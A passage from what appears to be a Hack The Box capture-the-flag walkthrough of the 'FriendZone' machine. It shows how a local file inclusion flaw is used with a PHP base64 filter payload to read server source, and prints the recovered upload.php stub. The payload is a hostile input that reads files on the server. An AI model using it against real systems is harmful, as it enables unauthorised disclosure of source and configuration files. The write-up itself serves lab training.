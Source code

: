![88780c18.png](/assets/images/posts/friendzone-htb-walkthrough/88780c18.png)
</a>

Ha Ha! An inexperienced developer. Now that I know a LFI vulnerability is present, I need a way to exploit it to read files. Enter PHP Filter.

Using the following filter, I was able to ignore another rabbit hole—the `uploads` page. I'm not even going to show the `dashboard.php` code. It's not a pretty sight.

```
pagename=php://filter/convert.base64-encode/resource=/var/www/uploads/upload
```

See? You are never going to upload anything.

```php
<?php
  // not finished yet -- friendzone admin !
  if(isset($_POST["image"])) {
    echo "Uploaded successfully !<br>";
    echo time()+3600;
  } else{
    echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";
  }
?>
```


[1]: https://www.hackthebox.eu/home/machines/profile/173
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/